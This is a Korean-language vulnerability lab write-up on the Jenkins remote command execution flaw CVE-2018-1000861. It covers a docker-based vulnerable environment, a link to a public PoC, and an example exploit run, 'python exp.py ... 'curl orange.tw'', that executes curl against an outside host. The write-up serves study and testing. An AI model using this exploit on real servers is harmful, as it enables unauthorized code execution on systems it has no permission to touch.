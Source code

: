 # Jenkins 원격 명령실행 취약점（CVE-2018-1000861）

장대한(@jth0809)

Jenkins는 HTTP 요청 처리를 위해 Stapler 웹 프레임워크를 사용합니다.

CVE-2018-1000861은 jenkins의 취약점으로 Stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java 파일의 

부적절한 URL 유효성 검사로 인해 URL을 통하여 시스템에서 일부 JAVA 메소드를 호출해 의도하지 않은 결과를 도출할 수 있는 취약점입니다.






다음은 이 취약점의 잠재적인 공격 방식입니다.

```
인증되지 않은 사용자는 내장된 Winstone-Jetty 서버로 Jenkins를 실행할 때 모든 세션을 무효화할 수 있습니다.

전체/읽기 권한이 있는 사용자는 메모리에 새 사용자 개체를 만들 수 있습니다.

전체/읽기 액세스 권한이 있는 사용자는 주기적으로 실행되는 AsyncPeriodicWork 구현 실행을 수동으로 시작할 수 있습니다.
```

본 취약점은 미국 국립 표준 기술 연구소의 NVD CVSS 3.x (취약점 점수)에서 9.8 critical 점수를 받았습니다.

## 실행방법

Shell에서 다운로드 받은 docker-compose.yml의 폴더로 이동하고 다음 명령어를 입력합니다.

```
docker compose up -d
```

도커에 의해 취약점이 존재하는 환경의 버전으로 자동 Pulling 되고 Created, Started 순서로 자동진행 됩니다.

![](5.png)

`http://localhost:8080`으로 접속하면 jenkins가 정상적으로 실행됩니다.

![](2.png)

## 익스플로잇

[POC](https://github.com/orangetw/awesome-jenkins-rce-2019) 코드로 익스플로잇 할 수 있습니다.

doker-compose.yml의 jenkins 버전이 2.138 이기 때문에 실행시 2.137초과 라는 출력이 나오게 됩니다.

![](1.png)


이외 3가지의 추가 flag 상태가 있습니다

![](4.png)

익스플로잇 하기 위한 다음과 같은 예제가 있습니다.

```
$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

또한 CVE-2018-1000861 이외의 취약점도 익스플로잇 해볼 수 있습니다.

CVE-2019-1003005

CVE-2019-1003029

## 참고자료

https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-595

https://nvd.nist.gov/vuln/detail/CVE-2018-1000861

https://github.com/orangetw/awesome-jenkins-rce-2019

https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/README.md
